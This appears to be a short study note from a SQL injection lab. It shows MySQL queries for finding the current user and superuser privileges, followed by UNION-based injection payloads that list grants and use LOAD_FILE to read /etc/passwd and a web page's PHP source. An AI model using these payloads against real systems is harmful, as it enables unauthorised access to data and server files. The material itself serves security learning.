 ___

# DB User

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

![[Pasted image 20240928130408.png]]
# User privileges

```sql
SELECT super_priv FROM mysql.user
```

![[Pasted image 20240928130438.png]]

The query returns `Y`, which means `YES`, indicating superuser privileges.


All of the possible privileges given to our current user,
```sql
test' union select 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

## LOAD_FILE

```sql
test' UNION SELECT 1,LOAD_FILE("/etc/passwd"),3,4-- -
```

```sql
test' UNION SELECT 1,LOAD_FILE("/var/www/html/search.php"),3,4-- -
```